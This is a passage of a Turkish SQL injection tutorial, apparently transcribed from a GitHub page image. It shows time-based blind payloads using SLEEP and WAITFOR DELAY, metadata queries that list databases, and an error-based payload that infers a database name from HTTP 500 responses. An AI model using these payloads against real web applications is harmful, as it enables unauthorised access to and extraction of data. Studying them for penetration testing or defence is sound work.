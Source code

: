 5️⃣ Time-Based SQL Injection ile Veritabanı İsmini Öğrenme
Bazı durumlarda hiçbir hata mesajı veya yanıt farkı olmuyorsa, time-based SQL Injection kullanabilirsin.
MySQL için:
```sql
sql
' AND IF(database()='test_db', SLEEP(5), 0)-- -

```
✅ Eğer sorgu 5 saniye bekliyorsa, veritabanı adı test_db olabilir.
Bunu karakter karakter test edebilirsin:
```sql
sql
' AND IF(substring(database(),1,1)='t', SLEEP(5), 0)-- -

```
MSSQL için:
```sql
sql
' IF(DB_NAME()='test_db') WAITFOR DELAY '0:0:5'-- -

```
📌 Bu yöntemleri python scripti veya SQLmap ile de otomatikleştirebilirsin.

6️⃣ Metadata Sorguları ile Veritabanı İsmini Öğrenme
Bazı veritabanlarında metadata tabloları mevcuttur ve bunları kullanarak veritabanı adını görebilirsin.
MySQL için:
```sql
sql
SELECT schema_name FROM information_schema.schemata;

```
MSSQL için:
```sql
sql
SELECT name FROM master..sysdatabases;

```
PostgreSQL için:
```sql
sql
SELECT datname FROM pg_database;



```
7️⃣ HTTP Yanıt Kodlarını Kullanarak Veritabanı İsmini Öğrenme
Eğer bir web uygulaması belirli hatalara farklı HTTP yanıt kodlarıyla cevap veriyorsa, yanıt kodları ile veri sızdırabilirsin.
```sql
sql
' AND IF(database()='test_db', 1/0, 1)-- -

```
✅ Eğer 500 Internal Server Error döndürürse, veritabanı adı test_db olabilir.
